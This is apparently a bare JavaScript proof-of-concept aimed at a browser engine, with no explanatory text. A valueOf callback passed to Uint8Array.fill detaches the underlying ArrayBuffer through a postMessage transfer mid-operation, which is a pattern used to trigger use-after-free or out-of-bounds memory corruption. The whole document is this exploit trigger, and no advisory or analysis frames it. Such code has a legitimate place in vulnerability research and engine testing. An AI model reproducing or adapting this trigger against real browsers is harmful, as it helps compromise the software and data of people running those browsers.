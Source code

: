 
function f(){
  try{
    postMessage("test", "http://127.0.0.1", [q])
  } catch(e){ }
  return 0x12345678;
}

var q = new ArrayBuffer(0x7fffffff);
var o = {valueOf : f}
var a = new Uint8Array(q);

try{
  a.fill(0x12, o, 0x77777777);
} catch(e){ }


